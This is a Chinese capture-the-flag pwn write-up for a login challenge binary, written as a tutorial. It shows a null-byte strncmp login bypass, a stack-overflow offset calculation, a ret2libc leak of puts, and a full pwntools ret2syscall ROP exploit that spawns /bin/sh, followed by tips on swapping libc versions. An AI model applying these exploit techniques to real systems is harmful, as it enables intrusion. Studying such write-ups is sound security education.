


## 天衣无缝的登录

题目描述：智慧之神说，只要你知道flag，你就能获得flag。看起来好像是一句废话。

### 0x01 漏洞分析

用IDA7.5打开题目附件，首先进入main函数，可以看出来只有login之后才可以进行下一步操作，调用login_success


可以看到login_success函数中存在一个栈溢出



再看login函数，读入的password是使用strncmp进行比较的，因此我们只需要发送一个\x00就可以对登录进行绕过


绕过之后就是水到渠成的栈溢出漏洞利用了～

## 0x02 漏洞利用

由于程序开了NX保护，因此我们采用ret2libc的思路，首先进行认证绕过：

```python3
from pwn import *
context.log_level = 'debug'
sh = process('./pwn')
# sh = remote('127.0.0.1',8001)
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
pop_rdi =0x0000000000402683 
pop_rsi_r15 = 0x0000000000402681


sh.recvuntil('> ')
sh.sendline('1')
sh.recvuntil(': ')
sh.sendline("\x00\x00")
sh.recvuntil('Now you can rop')
sleep(0.1)


```

随后我们尝试泄漏libc地址，首先要确认偏移。在log_success函数中双击buf变量会看到r变量也就是返回地址所在的位置是8，而buf所在的位置是-20，因此偏移是0x28。不过IDA里面又时候有问题，出问题以gdb下断点动态调试为准。



因此我们构造的payload如下，使用puts函数泄漏puts_got里的libc地址

```python3
payload = b'a'*0x28 + p64(pop_rdi)
payload += p64(puts_got) + p64(puts_plt)
payload += p64(0x402572)


sh.sendline(payload)
sh.recv(6)
libc_base = u64(sh.recv(6).ljust(8,b'\x00')) - 0x84420 #这里其实可以直接减 libc.sym['puts'],我是直接gdb算出来的
log.success('libc_base: ' + hex(libc_base))  # 打印libc地址
```

最后我在libc文件里寻找的rop链，使用的思路是ret2syscall。

`ROPgadget --binary ./libc.so | grep ret`

```python3
pop_rdx = libc_base + 0x0000000000142c92
pop_rax = libc_base + 0x0000000000036174

binsh_addr = libc_base + 0x00000000001b45bd
syscall = libc_base + 0x000000000002284d
payload = b'a'*0x28 + p64(pop_rdi)
payload += p64(binsh_addr) + p64(pop_rsi_r15) + p64(0) + p64(0)
payload += p64(pop_rdx) + p64(0)
payload += p64(pop_rax) + p64(59) + p64(syscall)


sh.recvuntil('> ')
sh.sendline('1')
sh.recvuntil(': ')
sh.sendline("\x00\x00")
sh.recvuntil('Now you can rop')
sleep(0.1)
sh.sendline(payload)
# gdb.attach(sh)
sh.interactive()
```

### 完整exp

```python3
from pwn import *
context.log_level = 'debug'
sh = process('./pwn')
# sh = remote('127.0.0.1',8001)
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
pop_rdi =0x0000000000402683 
pop_rsi_r15 = 0x0000000000402681


sh.recvuntil('> ')
sh.sendline('1')
sh.recvuntil(': ')
sh.sendline("\x00\x00")
sh.recvuntil('Now you can rop')
sleep(0.1)

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

payload = b'a'*0x28 + p64(pop_rdi)
payload += p64(puts_got) + p64(puts_plt)
payload += p64(0x402572)


sh.sendline(payload)
sh.recv(6)
libc_base = u64(sh.recv(6).ljust(8,b'\x00')) - 0x84420
log.success('libc_base: ' + hex(libc_base))

pop_rdx = libc_base + 0x0000000000142c92
pop_rax = libc_base + 0x0000000000036174

binsh_addr = libc_base + 0x00000000001b45bd
syscall = libc_base + 0x000000000002284d
payload = b'a'*0x28 + p64(pop_rdi)
payload += p64(binsh_addr) + p64(pop_rsi_r15) + p64(0) + p64(0)
payload += p64(pop_rdx) + p64(0)
payload += p64(pop_rax) + p64(59) + p64(syscall)


sh.recvuntil('> ')
sh.sendline('1')
sh.recvuntil(': ')
sh.sendline("\x00\x00")
sh.recvuntil('Now you can rop')
sleep(0.1)
sh.sendline(payload)
# gdb.attach(sh)
sh.interactive()
```

### 关于更换libc

后面经常会碰到不同libc版本的题目（尤其堆题），大概有三种方案

1. 使用patchelf [NixOS/patchelf: A small utility to modify the dynamic linker and RPATH of ELF executables (github.com)](https://github.com/NixOS/patchelf) ，最好是将libc更换成glibc-all-in-one里有符号的libc，方便调试

2. 使用docker创建虚拟环境[docker 初探 | 木头的小木屋 (wood1314.github.io)](https://wood1314.github.io/year/01/30/cl7iordpb0024293fhfd5zi74/)
3. 多建几个虚拟机